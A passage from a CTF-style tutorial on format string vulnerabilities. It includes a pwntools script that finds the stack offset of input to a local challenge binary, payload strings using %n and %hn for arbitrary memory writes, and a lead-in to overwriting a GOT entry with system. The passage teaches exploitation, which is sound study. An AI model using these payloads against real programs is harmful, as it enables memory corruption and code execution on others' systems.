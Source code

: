 ```
# Iterate over a range of integers
for i in range(10):
    # Construct a payload that includes the current integer as offset
    payload = f"AAAA%{i}$x".encode()

    # Start a new process of the "chall" binary
    p = process("./chall")

    # Send the payload to the process
    p.sendline(payload)

    # Read and store the output of the process
    output = p.clean()

    # Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
    if b"41414141" in output:
        # If the string is found, log the success message and break out of the loop
        log.success(f"User input is at offset : {i}")
        break

    # Close the process
    p.close()
```
```

### How useful

Arbitrary reads can be useful to:

- **Dump** the **binary** from memory
- **Access specific parts of memory where sensitive** **info** is stored (like canaries, encryption keys or custom passwords like in this [[https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)|**CTF challenge**]]

## **Arbitrary Write**

The formatter **`%<num>$n`** **writes** the **number of written bytes** in the **indicated address** in the <num> param in the stack. If an attacker can write as many char as he will with printf, he is going to be able to make **`%<num>$n`** write an arbitrary number in an arbitrary address.

Fortunately, to write the number 9999, it's not needed to add 9999 "A"s to the input, in order to so so it's possible to use the formatter **`%.<num-write>%<num>$n`** to write the number **`<num-write>`** in the **address pointed by the `num` position**.

```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
```
However, note that usually in order to write an address such as `0x08049724` (which is a HUGE number to write at once), **it's used `$hn`** instead of `$n`. This allows to **only write 2 Bytes**. Therefore this operation is done twice, one for the highest 2B of the address and another time for the lowest ones.

Therefore, this vulnerability allows to **write anything in any address (arbitrary write).**

In this example, the goal is going to be to **overwrite** the **address** of a **function** in the **GOT** table that is going to be called later. Although this could abuse other arbitrary write to exec techniques:

[[../arbitrary-write-2-exec/]]

We are going to **overwrite** a **function** that **receives** its **arguments** from the **user** and **point** it to the **`system`** **function**.\
```